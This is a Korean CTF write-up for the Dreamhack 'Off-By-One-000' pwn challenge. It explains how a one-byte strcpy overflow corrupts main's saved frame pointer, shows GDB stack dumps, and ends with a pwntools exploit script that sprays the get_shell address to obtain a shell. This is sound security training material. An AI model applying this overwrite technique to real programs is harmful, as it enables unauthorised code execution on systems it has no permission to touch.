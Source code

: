 ```yaml
---
layout: post
subtitle: Off-By-One-000
comment: true
tags: [CTF, pwn]
---
```


# [문제](https://dreamhack.io/wargame/challenges/9/writeups)

`strcpy`는 몇바이트까지 복사하라는 말 없이 널문자열을 만날때 까지 복사합니다. <br/>`cpy`함수 내의 버퍼가 256바이트 길이이고 복사된 문자열은 `256개의 char` + `\x00`이므로 1byte 오버플로가 납니다.
오버플로가 나는 위치는 main의 `SFP`입니다.

## GDB
```
EBP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
ESP: 0xffffcf20 --> 0xffffcf28 --> 0x0 
EIP: 0x804864f (<cpy+3>:        sub    esp,0x100)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804864b <initialize+70>:   ret    
   0x804864c <cpy>:     push   ebp
   0x804864d <cpy+1>:   mov    ebp,esp
=> 0x804864f <cpy+3>:   sub    esp,0x100
   0x8048655 <cpy+9>:   push   0x804a060
   0x804865a <cpy+14>:  lea    eax,[ebp-0x100]
   0x8048660 <cpy+20>:  push   eax
   0x8048661 <cpy+21>:  call   0x8048470 <strcpy@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffcf20 --> 0xffffcf28 --> 0x0 
0004| 0xffffcf24 --> 0x804869e (<main+46>:      push   0x804a060)
0008| 0xffffcf28 --> 0x0 
0012| 0xffffcf2c --> 0xf7e00e91 (<__libc_start_main+241>:       add    esp,0x10)
```
`strcpy`의 실행 전 `cpy`의 스텍프레임 내에서 `SFP`가 `0xffffcf28`인 모습

---

```
EBP: 0xffffcf20 --> 0xffffcf00 --> 0x80485db (<get_shell>:      push   ebp)
```
`strcpy`실행 후 `SFP`가 `0xffffcf00`가 된 모습

여기서 main의 에필로그 상에서 `leave`가 실행될 때 `esp`는 `0xffffcf00`근처를 가리킨다.<br/>
따라서 `ret`또한 이 근처에 있을 가능성이 높다. 이에 따라서 페이로드를 `p32(get_shell_addr)*64`의 256바이트 문자열로 설정하는게 이론상 바람직하다.

---
## 유의점
`Ubuntu 18.04`기준 
```
GNU gdb (Ubuntu 8.1-0ubuntu3.2) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
```
위 `GDB`버젼에서는 제대로 실습하지 못한다.
`GDB`로 돌렸더니 `cpy`이후 `printf`를 처리하는 과정에서 `cpy`에서 우리가 덮어놓은 버퍼가 오염되는 문제가 발생한다. <br/>
하지만 `pwntools`로 직접 바이너리를 실행하면 이 문제가 발생하지 않기 때문에 문제를 푸는데는 지장이 없다.

---
## Esploit code

```ts
from pwn import*
p = process("./off_by_one_000")
// 제출시에는 remote에 hostname과 포트번호를 넣어주면 된다.
get_shell = 0x80485db
payload = p32(get_shell)*64 
p.sendline(payload)
p.interactive()
```
오염된 `SFP`근처에 목표`RET`가 있으므로 페이로드를 전부 `get_shell`주소로 하면 정답 확률이 높다.
